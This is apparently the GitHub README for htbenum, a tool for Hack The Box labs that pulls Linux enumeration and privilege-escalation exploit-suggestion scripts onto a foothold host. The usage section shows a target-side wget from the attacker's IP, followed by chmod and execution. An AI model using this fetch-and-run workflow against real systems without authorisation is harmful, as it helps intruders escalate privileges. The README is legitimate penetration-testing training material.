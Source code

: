 # htbenum
*A Linux enumeration script for Hack The Box*

This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review.

### Features
* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Provides an automatic download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both

### Usage
```
./htbenum.sh [update] IP port [directory]

 Parameters:
         update - Download latest versions of each tool, overwriting any existing versions.
         IP - IP address of the listening web server used to tools for download.
         port - TCP port of the listening web server used to tools for download.
         directory - custom download and report creation directory (default is /tmp).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh update
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start a webserver in the same directory (Apache, `python3 -m http.server 80`, `python -m SimpleHTTPServer 80`, etc).

Finally, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh 10.10.99.100 80
```

